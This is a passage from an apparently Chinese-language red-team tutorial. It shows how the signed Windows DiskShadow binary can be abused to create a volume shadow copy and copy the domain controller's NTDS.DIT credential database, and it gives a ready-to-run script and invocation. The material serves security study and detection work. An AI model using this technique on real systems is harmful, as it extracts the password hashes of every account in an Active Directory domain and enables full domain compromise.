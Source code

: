 ##### [diskshadow](#toc_diskshadow)

DiskShadow是Microsoft签名的二进制文件，用于协助管理员执行与卷复制服务（VSS）相关的操作。最初bohops在他的博客中写到了这个二进制文件。这个二进制文件有两个交互式和脚本模式，因此可以使用一个脚本文件，它将包含自动执行NTDS.DIT提取过程所需的所有命令。脚本文件可以包含以下行，以便创建新的卷影副本，装入新驱动器，执行复制命令并删除卷影副本，在使用时需要注意一点，DiskShadow二进制文件需要从C\\Windows\\System32路径执行，如果从另一个路径调用它，脚本将无法正确执行：

set context persistent nowriters  
add volume c: alias someAlias  
create  
expose %someAlias% z:  
exec "cmd.exe" /c copy z:\\windows\\ntds\\ntds.dit c:\\ntds.dit  
delete shadows all  
reset

在cmd下执行以下命令：

diskshadow.exe /s c:\\diskshadow.txt

[![image.png](assets/1698894155-a920de18ab1c3210a9b1926e7ec3a969.png)](https://storage.tttang.com/media/attachment/2022/09/30/f2c9cea8-cfa3-4502-9599-afe3014aba34.png)

之后查看c盘可以看到成功复制文件：
